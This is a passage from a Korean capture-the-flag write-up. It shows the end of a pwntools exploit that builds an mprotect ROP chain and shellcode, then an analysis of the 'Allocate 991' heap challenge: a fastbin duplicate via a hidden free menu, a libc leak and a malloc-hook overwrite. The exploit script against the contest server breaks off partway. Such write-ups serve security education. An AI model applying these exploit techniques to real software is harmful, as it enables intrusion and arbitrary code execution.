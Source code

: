 ```python

pause()
payload2 = p32(libc_base + l.symbols['mprotect'])
payload2 += p32(pppr) + p32(e.bss()-0x40) + p32(0x2000) + p32(7)
payload2 += p32(e.bss() + 0x100 + len(payload2) + 4)
payload2 += asm(shellcraft.sh())

s.sendline(payload2)

s.interactive()
```

FLAG : Flag is FLAG{dO_y0u_kNOw_F@ct0rIzAtion?}
<br><br><br>

## Allocate 991 (Pwn)
```
There are many allocation methods in this world.
Learn a lot and get shell
222.110.147.52:28417
Link
```

### Reversing
1. Allocate - 여러 종류로 할당할 수 있다.
2. Modified - 할당한 heap중 calloc으로 할당한 것만 수정할 수 있다.
3. Confirm - 할당한 heap중 calloc으로 할당한 것만 보여준다.
4. Bitwise operation - 비트연산..? (익스할때 필요없어서 안봄)
1222. free - 히든메뉴로 자유롭게 free할 수 있다.

### Vulnerability
히든메뉴에서 malloc_chunk를 3번 free할 수 있는데 초기화가 안되서 fastbin duplicate를 발생시킬 수 있다.

### Exploit
leak은 calloc_chunk가 realloc_chunk로 변할때 초기화가 되지않는다는 점에서 발생한다. 즉 calloc_chunk를 출력할 때 unsortedbin_chunk의 fd,bk를 출력시키면 libc를 얻을 수 있다. 이후에는 malloc hook을 one_shot 가젯으로 덮어주면 된다.

```python
from pwn import *

#s = process('./Allocate')
s = remote('222.110.147.52',28417)
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def malloc(size,data):
	s.sendlineafter('> ','1')
	s.sendlineafter('> ','1')
	s.sendlineafter('size: ',size)
	s.sendafter('data: ',data)
	s.sendlineafter('> ','6')

def calloc(size,data):
	s.sendlineafter('> ','1')
	s.sendlineafter('> ','2')
	s.sendlineafter('size: ',size)
	s.sendafter('data: ',data)
	s.sendlineafter('> ','6')

def realloc(size,alloc_type,index,data):
	s.sendlineafter('> ','1')
	s.sendlineafter('> ','3')
	s.sendlineafter('size: ',size)
	s.sendlineafter('> ',alloc_type)
```